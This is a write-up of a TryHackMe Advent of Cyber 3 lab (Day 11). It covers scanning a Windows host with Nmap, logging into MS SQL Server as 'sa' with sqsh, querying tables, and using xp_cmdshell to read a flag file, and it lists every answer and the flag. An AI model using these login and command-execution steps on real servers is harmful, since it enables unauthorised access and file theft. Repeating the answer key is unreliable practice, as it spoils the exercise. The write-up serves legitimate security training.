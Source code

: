 # Advent of Cyber - Day 11

Link: [Advent Of Cyber 3 on TryHackMe](https://tryhackme.com/room/adventofcyber3)

### Question 1

You decided that the first step would be to check the running services on $ip. You resort to yesterday’s tool, Nmap.

Knowing that $ip is a MS Windows system, you expect it to not respond to ping probes by default; therefore, you need to add -Pn to your nmap command to perform the scan. This instructs Nmap to skip pinging the target to see if the host is reachable. Without this option, Nmap will assume the target host is offline and not proceed with scanning.

There is an open port related to MS SQL Server accessible over the network. What is the port number?

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day11/1.png?raw=true)

Answer: `1433`

### Question 2

Let’s try to run, `sqsh -S $ip -U sa -P t7uLKzddQzVjVFJp`

If the connection is successful, you will get a prompt. What is the prompt that you have received?

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day11/2.png?raw=true)

Answer: `>1`

### Question 3

We can see four columns in the table displayed above: id, first (name), last (name), and nickname. What is the first name of the reindeer of id 9?

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day11/3.png?raw=true)

Answer: `Rudolph`

### Question 4

Check the table schedule. What is the destination of the trip scheduled on December 7?

Command:
```
1> SELECT * FROM reindeer.dbo.schedule;
2> go
```

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day11/4.png?raw=true)

Answer: `Prague`

### Question 5

Check the table presents. What is the quantity available for the present “Power Bank”?

Command:
```
1> SELECT * FROM reindeer.dbo.presents;
2> go
```

![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day11/5.png?raw=true)

Answer: `25000`

### Question 6

There is a flag hidden in the grinch user's home directory. What are its contents?

Commands:

```
1> xp_cmdshell 'dir C:\Users\grinch\Documents';
2> go
```

```
1> xp_cmdshell 'type C:\Users\grinch\Documents\flag.txt';
2> go
```

| Dirlist | Flag |
|:-:|---|
| ![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day11/6.1.png?raw=true) | ![](https://github.com/AtomicNicos/knowledge-base/blob/main/writeup_resources/aoc3/day11/6.2.png?raw=true) |

Answer: `THM{YjtKeUy2qT3v5dDH}`

### Question 7

Congratulations, the flag you have recovered contains the password of McDatabaseAdmin! In this task, we learned how to use sqsh to interact with a MS SQL Server. We learned that if xp_cmdshell is enabled, we can execute system commands and read the output using sqsh.

Answer: `No answer needed`